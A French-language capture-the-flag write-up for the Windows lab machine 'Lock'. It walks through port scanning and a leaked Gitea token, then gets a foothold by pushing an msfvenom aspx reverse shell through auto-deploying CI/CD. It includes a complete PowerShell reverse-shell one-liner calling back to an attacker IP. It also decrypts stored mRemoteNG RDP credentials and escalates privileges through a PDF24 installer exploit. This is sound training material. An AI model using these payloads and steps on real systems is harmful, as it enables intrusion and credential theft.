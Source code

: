 ```yaml
---
title: Lock - Easy
description: WU Lock - Easy
categories: [Writeup]
tags: [writeup]
template: doc
---
```


![](../../../../assets/wu-images/banner.jpeg)

# LOCK


| OS | Difficulty | Target |
|----|----|----|
| Windows | <span style="color:green">**EASY**</span> | 10.10.92.237 |



# 🔭 Enumeration

### PortScan

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
```
Scan approfondit des ports trouvés:

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Lock - Index
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=87dfb3e2af70e006; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=40IoXd4T_GFBgYejGbA9it2Tu-g6MTcyNjM0OTU4OTY2NjgxMjUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 14 Sep 2024 21:33:09 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi8vbG9jYWxob3N0OjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjU
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=690ad1cf074d552c; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=IlVtCJ-F-vcFbXBL_eRGbH0Nb9Y6MTcyNjM0OTU5NTA2NDE1OTgwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Sat, 14 Sep 2024 21:33:15 GMT
|_    Content-Length: 0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2024-09-13T21:19:21
|_Not valid after:  2025-03-15T21:19:21
|_ssl-date: 2024-09-14T21:35:12+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2024-09-14T21:34:32+00:00
```
| PORT | PROTOCOL |
|----|----|
| 80 | HTTP |
| 445 | SMB |
| 3000 | GITEA |
| 3389 | RDP |

# 👣 Foothold

Un dépôt `Gitea` sur le port 3000. Nous donne un nom d'user `ellen.freeman`. Il y a 2 commits et un script.
Le commit initial nous permet de récupérer le Token Gitea:

```py
PERSONAL_ACCESS_TOKEN = '43ce39bb0bd6bc489284f2905f033ca467a6362f' 
```

En jetant un coup d'oeil au script,  on peut voir qu'il énumère l'ensemble des dépôts présents sur Gitea pour un utilisateur donné.

En utilisant le script, nous découvrons un dépôt `/website`

```sh
python3 repos.py http://lock.vl:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

Téléchargeons le git:

```sh
git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@lock.vl:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 2.58 MiB/s, done.
Resolving deltas: 100% (35/35), done.
```

En lisant le fichier `README.md` présent, il est indiqué que chaque modification, apportée au dépôt, est déployée automatiquement.

```sh
cat readme.md    
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver# 
```

Création d'un reverse shell avec un fichier `.aspx` puis push vers le dépôt ou en utilisant [ce script](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx)
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.3.147 LPORT=4444 -f aspx -o web.aspx
git config --global user.name ellen.freeman
git config --global user.email ellen.freeman@lock.vl
git add web.aspx
git commit -m "Add web file"
git push
```

Dans un autre terminal j'écoute sur le port 4444, puis je me rends sur le lien du fichier en espérant obtenir un reverse shell.

```sh
nc -lvnp 4444
```

Sur le lien de la page, je saisis la commande:

```cmd
/c powershell.exe -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.3.147',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
On obtient notre reverse shell, en fouillant dans les répertoires de `ellen.freeman` on trouve un fichier `config.xml`.
```powershell
PS C:\Users\ellen.freeman\Documents> cat config.xml
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

Le fichier `config.xml` est un fichier pour RemoteNG. J'utilise le script de ce [dépôt](https://github.com/gquere/mRemoteNG_password_decrypt) pour déchiffrer les informations présentes.

```sh
python3 rng-decrypt.py config.xml   
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

On obtient donc l'user `Gale.Dekarios` et son mot de passe.
Connectons-nous en RDP.

Le flag user est présent sur le Bureau.


# 🎯 Privilege Escalation

A partir de la session de Gale.Dekarios, nous pouvons voir que le logiciel PDF24 est présent. En regardant les détails du programme, la version est la 11.15.1 dont un exploit permet de PrivEsc.

Le lien ci-contre nous indique la [marche à suivre](https://packetstormsecurity.com/files/176206/PDF24-Creator-11.15.1-Local-Privilege-Escalation.html).

- Téléchargeons SetOpLock.exe sur la machine cible ([Github](https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0))
- Saisissons la commande suivante dans un prompt cmd: `.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r`
- Un dossier `_Install`est présent à la racine de `C:` et possède l'installer msi requis pour monter en privilèges.
- Dans un autre terminal, lançons l'installation avec la commande suivante: `msiexec.exe /fa pdf24-creator-11.15.1-x64.msi`
- A la fin de l'installation un terminal s'ouvre, il suffit de cliquer droit sur la barre / Propriété et cliquer sur le lien `Legacy console mode link`
- Sélectionner Firefox, puis `CTRL+O`pour ouvrir `cmd.exe`à partir de Firefox. 
- Contrôler qui nous sommes avec la commande `whoami /all` 

Vous êtes administrateur, vous pouvez obtenir le flag `root.txt`dans le Desktop d'Administrator.